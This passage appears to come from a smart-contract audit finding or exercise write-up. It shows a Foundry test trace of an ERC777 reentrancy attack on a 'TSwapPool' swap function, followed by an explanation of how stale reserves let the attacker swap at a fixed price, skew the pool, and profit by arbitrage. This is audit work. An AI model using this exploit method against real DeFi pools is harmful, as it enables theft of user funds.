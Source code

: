 ```javascript
    │   │   │   │   │   ├─ emit Transfer(from: TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], to: Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], value: 16624979156244789061 [1.662e19])
    │   │   │   │   │   └─ ← [Return] true
    │   │   │   │   └─ ← [Return] 0
    │   │   │   └─ ← [Stop]
    │   │   ├─ [0] console::log("time to move") [staticcall]
    │   │   │   └─ ← [Stop]
    │   │   ├─ emit Sent(operator: TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], from: Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], to: TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], amount: 20000000000000000000 [2e19], data: 0x, operatorData: 0x)
    │   │   ├─ emit Transfer(from: Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], to: TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], value: 20000000000000000000 [2e19])
    │   │   ├─ emit Approval(owner: Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], spender: TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], value: 20000000000000000000 [2e19])
    │   │   ├─ [942] 0x1820a4B7618BdE71Dce8cdc73aAB6C95905faD24::getInterfaceImplementer(TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], 0xb281fc8c12954d22544db45de3159a39272895b169a852b314f9cc762e44c53b) [staticcall]
    │   │   │   └─ ← [Return] 0x0000000000000000000000000000000000000000
    │   │   └─ ← [Return] true
    │   ├─ [3304] ERC20Mock::transfer(Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], 16624979156244789061 [1.662e19])
    │   │   ├─ emit Transfer(from: TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], to: Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], value: 16624979156244789061 [1.662e19])
    │   │   └─ ← [Return] true
    │   └─ ← [Return] 0
    ├─ [559] ERC20Mock::balanceOf(TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E]) [staticcall]
    │   └─ ← [Return] 50125062531265632817 [5.012e19]
    ├─ [639] ERC777Token::balanceOf(TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E]) [staticcall]
    │   └─ ← [Return] 160000000000000000000 [1.6e20]
    ├─ [0] console::log(50125062531265632817 [5.012e19], 160000000000000000000 [1.6e20]) [staticcall]
    │   └─ ← [Stop]
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return]
    └─ ← [Stop]
```

This might look complicated but it is very easy to see what is going on. All you need to see is that everytime swapexactinput is called via my reentrancy, the balances of both of the tokens in the tswappool are always the same. This is the key part. I have called the swapexactinput function again before any state has been updated so as far as the contract is concerned, the token ratios are still the same. there is still 100e18 of both tokens but in reality, the contract has sent me weth and taken my erc777 but the token balances havent been updated yet due to my reentrancy. As a result, when it is calculating how much weth i should get, it will calculate it based on the input and output reserves it thinks it has which is still 100e18 of both. This allows me to keep swapping my erc777 token for weth at the same price as many times as I want. Once the reeentrancy is over, i logged how much weth and erc777token are in the pool and as you can see, there is about 50e18 of weth and 160e18 of the erc777 token which is not the same ratio as the pool started with. Now instead of a 1 token costing approximately 1 weth, 1 token now costs about 0.3 weth which is significantly cheaper and obviously breaks the core protocol invariant. So i can buy up these tokens for cheap and then go sell them on another similar pool that has a better ratio and profit off that.
